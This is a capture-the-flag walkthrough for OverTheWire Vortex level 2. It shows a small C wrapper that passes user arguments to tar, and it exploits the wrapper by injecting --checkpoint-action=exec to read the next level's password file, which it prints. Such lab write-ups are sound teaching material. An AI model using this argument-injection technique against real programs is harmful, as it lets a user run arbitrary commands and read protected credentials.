 ## Vortex Level 2 → Level 3
### Tar Exploit

Problem page: <http://overthewire.org/wargames/vortex/vortex2.html>

Okay so this one is pretty staightforward, let's look at the code we need to exploit

```C
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
  char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
  execv(args[0], args);
}
```

This program just excetutes `tar cf /tmp/ownership.$$.tar` with whatever 3 additional command line arguments you pass into it, somebody could easily write a program like this with the intent that they would pass filenames as arguments, but we can just as easily pass in flags as arguments and drastically change the behaviour of the program.

Let's go through the [`tar` man page](https://linux.die.net/man/1/tar) to see what we have to work with.


```
--checkpoint[=NUMBER]
    display progress messages every NUMBERth record (default 10)

--checkpoint-action=ACTION
    execute ACTION on each checkpoint
```

Alright, so we can excecute arbitrary commands every file by using these two flags, let's try it out. We'll make the first argument `/vortex/vortex2`, that way `tar` will have something to try to archive and run the checkpoint action on.

```console
vortex2@vortex:~$ /vortex/vortex2 /vortex/vortex2 "--checkpoint=1" "--checkpoint-action=exec=cat /etc/vortex_pass/vortex3"
/bin/tar: Removing leading `/' from member names
/bin/tar: UW1\377VS\350\305\376\377\377\201\303u\033: Cannot stat: No such file or directory
64ncXTvx#
/bin/tar: Exiting with failure status due to previous errors
```

Welp, `tar` didn't manage to make the archive, but it did print out the password, which was the more important output for us. Onto level 3!